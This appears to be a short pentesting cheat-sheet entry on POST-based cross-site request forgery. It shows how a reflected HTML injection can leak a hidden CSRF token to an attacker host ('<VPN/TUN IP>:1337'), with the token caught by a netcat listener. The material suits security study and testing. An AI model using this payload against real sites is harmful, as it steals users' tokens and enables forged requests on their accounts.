 # Cross-Site Request Forgery (POST-based)
***

### Example:
#### For instance a web application where we the input it's reflected on the page and the csrf is hidden like the following:
```html
"><h1>h1<u>underline</u></h1></div><input name="csrf" type="hidden" value="8004b0075be876276ad2dbf443f7aaae99d7a123" meta-dev='
```
#### Leaking the target's CSRF remotely via XSS/HTML injection (below it's an example of an HTML injection):
```html
<table%20background='%2f%2f<VPN/TUN IP>:1337%2f
```

#### Then we would be listening for the request using netcat
```bash
$ nc -nlvp 1337
```
